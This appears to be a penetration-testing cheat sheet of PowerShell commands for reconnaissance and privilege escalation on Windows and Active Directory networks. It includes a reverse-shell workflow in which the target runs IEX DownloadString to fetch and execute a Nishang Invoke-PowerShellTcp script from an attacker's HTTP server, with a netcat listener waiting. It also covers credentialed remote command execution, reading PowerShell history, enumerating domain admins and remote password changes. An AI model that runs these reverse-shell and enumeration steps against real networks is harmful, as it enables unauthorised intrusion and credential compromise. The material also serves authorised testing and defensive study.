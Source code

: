 # PowerShell

Some useful PowerShell commands that you can use during your recon or privsec phases.


## Execute block as an other user

```powershell
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<dom>\<username>", $pass)
Invoke-Command -Computer <computer_name> -Credential $cred -ScriptBlock { cmd.exe "/c <cmd>" }
```


## Download and execute script

The repository [Nishang](https://github.com/samratashok/nishang) contains a good
PowerShell script to create a [reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
You need to add the following line at the end:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <port>
```

On your local machine:

- Create an HTTP server to serve the script: `python -m http.serve`
- Listen for an incoming [connection with nc](reverse-shell.md#listen-with-netcat).

On the remote host, execute the following PowerShell script:

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/<script_name.ps1>')
```


## Execute C# DLL from Powershell

```powershell
# Load a dll to Powershell
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Service.dll")
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Cryptography.dll")

# Call a public public static method
[MyNamespace.Service.Config]::ApplicationKey()

# Instantiate a class and class a method
$c = New-Object MyNamespace.Cryptography.MyCryptography
$c.Decrypt("CIPHER_TEXT", [MyNamespace.Service.Config]::ApplicationKey())
```

## ActiveDirectory Module without RSAT

To use the [ActiveDirectory Module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps
) you only need to import the dll `Microsoft.ActiveDirectory.Management.dll`.
It located in the following folder on a system where [RAST](https://docs.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is installed :

```
C:\Windows\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\
```

On the distant machine, you copy this dll then import it in Powershell:

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
```

## Domain commands


### Collect AD users information

Here is snippets of Powershell commands to interact with AD LDAP. You can also
use customize filters to get vulnerable users ([SPN](./windows.md#list-spn-accounts), ...)

```powershell
# Helping functions
function Get-ADUserDirectoryEntry($user) {
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$user))")).FindOne().GetDirectoryEntry()
}

function Get-ADUserGroups($user) {
    $userDirectoryEntry = Get-ADUserDirectoryEntry($user)
    $groups = $userDirectoryEntry.memberOf

    return $groups
}

function Get-ADGroupMembers($GroupName) {
    if ($GroupName -like "CN=*") {
        $GroupDistinguishedName = $GroupName
    } else {
        # find the distinguished name from the group name
        $GroupDistinguishedName = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=Group)(cn=$GroupName))")).FindOne().GetDirectoryEntry().distinguishedName
    }

    # limited to the first 10k entries
    $GroupMembers = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(memberOf=$GroupDistinguishedName ))")).FindAll()

    return $GroupMembers.properties
}

function Get-ADComputerByOS($operatingSystem) {
    # https://ldapwiki.com/wiki/Active%20Directory%20Computer%20Related%20LDAP%20Query
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(&(&(samAccountType=805306369)(objectCategory=computer)(operatingSystem=$operatingSystem*))))")).FindAll()
}

# Get "Domain admins" users, be carefull the name may change depending on the DC lang
$DomainAdmins = Get-ADGroupMembers("Domain Admins")
foreach($user in $DomainAdmins) { echo "$($user.displayname) ($($user.samaccountname))" }
```


### Get Domain Password Policy

```powershell
$policy = Get-ADDefaultDomainPasswordPolicy -Credential $cred -Server $domain
```


### Get user owner

```powershell
Get-ADUser $USERNAME | ForEach-Object {Get-ACL "AD:\$($_.DistinguishedName)" | Select-Object -ExpandProperty Owner}
```


### List deleted users

```powershell
$deletedObjectsDom = get-addomain | select DeletedObjectsContainer
$objects = Get-ADObject -SearchBase $deletedObjectsDom.DeletedObjectsContainer -ldapfilter "(objectClass=user)" -IncludeDeletedObjects -properties *
foreach ($object in $objects) { $object }
```


## Miscellaneous commands

### List TCP listening connections

The [`Get-NetTCPConnection`](https://docs.microsoft.com/en-us/powershell/module/nettcpip/get-nettcpconnection?view=win10-ps)
cmdlets lists TCP connections. By default the processes pid is return, so the
following command line select the process name instead.

```powershell
Get-NetTCPConnection -State Listen | Select local*, remote*, state, @{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}} | Format-Table -AutoSize
```


### List Email aliases

```powershell
$ (Get-ADUser -Identity <user_ad_id> -Properties proxyAddresses).proxyAddresses
```


### Get PowerShell command history

```powershell
cd "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadline"
gc ConsoleHost_history.txt
```


### Convert DACL

```powershell
$acl = get-acl HKLM:\System\CurrentControlSet\Services
ConvertFrom-SddlString -Sddl $acl -type RegistryRights | { Foreach-Object { $.DiscretionaryAcl } }
```


### Set Password Remotely

This [script](./assets/Set-PasswordRemotely.ps1) change the password of a user
on a remote forest.

```powershell
Set-PasswordRemotely {USERNAME} {DOMAIN}
```

### List Certificates

```powershell
$NamingContext = "DC=corpo,DC=lan"

$directoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Configuration,$NamingContext")
$adSearcher = New-Object System.DirectoryServices.DirectorySearcher($directoryEntry, "(distinguishedName=CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,$NamingContext)")
$NTAuthCertificates = $adSearcher.FindOne()
$cacertificates = $NTAuthCertificates.Properties.cacertificate

Foreach ($rawByte in $cacertificates) {
    $cacertificate = [System.Security.Cryptography.X509Certificates.X509Certificate2]$rawByte

    $subjectName = [System.Text.Encoding]::Default.GetString($cacertificate.SubjectName.RawData)
    $issuerName = [System.Text.Encoding]::Default.GetString($cacertificate.IssuerName.RawData)
    $signatureAlgorithm = $cacertificate.SignatureAlgorithm.FriendlyName
}
```


### List inactive computers

```powershell
$computers = (New-Object System.DirectoryServices.DirectorySearcher("(&(&(samAccountType=805306369)(objectCategory=computer)))")).FindAll()

$inactiveDays = 180
$limit = (Get-Date).AddDays(-1 * $inactiveDays)
$path = "C:\Temp\Inactive_Computers_$($inactiveDays)days.csv"

foreach($computer in $computers) {
    $c = $computer
    $lastlogontimestamp = [datetime]::FromFileTime($c.Properties.lastlogontimestamp[0])
    $pwdlastset = [datetime]::FromFileTime($c.Properties.pwdlastset[0])

    if ($lastlogontimestamp -lt $limit) {
        Add-Content $path "$($c.Properties.name),$($pwdlastset),$($lastlogontimestamp),$($c.Properties.operatingsystem)"
    }
}
```

### List GPO

The following script use the `DirectorySearcher` module to search for all the GPO
on the current domain. The cmdlet [`Get-GPO`](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gpo?view=win10-ps) could also be used.

```powershell
# https://gallery.technet.microsoft.com/scriptcenter/Get-GroupPolicyObject-05aaef2d

$GPOSearcher = New-Object DirectoryServices.DirectorySearcher -Property @{
    Filter = '(objectClass=groupPolicyContainer)'
    PageSize = 100
}
$GPOSearcher.FindAll() | ForEach-Object {
    New-Object -TypeName PSCustomObject -Property @{
        'DisplayName' = $_.properties.displayname -join ''
        'DistinguishedName' = $_.properties.distinguishedname -join ''
        'CommonName' = $_.properties.cn -join ''
        'FilePath' = $_.properties.gpcfilesyspath -join ''
    } | Select-Object -Property DisplayName,CommonName,FilePath,DistinguishedName
}
```

To get the permissions on a GPO, you can use the cmdlet [`Get-GPPermission`](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gppermission?view=win10-ps):

```powershell
Get-GPPermission -Name "GPO_NAME" -All
```
